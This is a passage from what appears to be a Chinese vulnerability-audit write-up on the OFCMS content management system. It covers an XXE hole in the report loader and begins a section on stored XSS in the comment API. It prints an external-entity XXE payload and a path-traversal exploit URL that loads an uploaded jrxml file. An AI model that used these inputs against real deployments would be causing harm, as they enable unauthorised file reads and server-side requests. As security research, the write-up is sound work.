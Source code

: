 在loadXML方法中调用了Digester类的parse解析我们的XML文档内容，默认是没有禁用外部实体解析的，所以这里是存在XXE漏洞的

这个就需要配合一个已有的jrxml文件使用了，可以用之前任意文件写入或者文件上传来上传一个jrxml，因为文件上传是除了jsp和jspx后缀的都可以上传

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://127.0.0.1:7777"> %xxe; ]>
```

```
http://localhost:8080/ofcms_admin/admin/reprot/expReport.html?j=../../upload/image/1
```

![image-20230419162633884](images/49.png)

因为正常的情况下，这里我们没法控制，所以感觉有一点鸡肋

## 存储型xss

前面提到过，在编辑模板的时候可以有存储型的xss，这里的xss就很多了，网上都写到了前台评论处存在xss

![image-20230418171218016](images/50.png)

根据抓包的接口定位到了com.ofsoft.cms.api.v1的CommentApi的save方法

![image-20230418171724263](images/51.png)

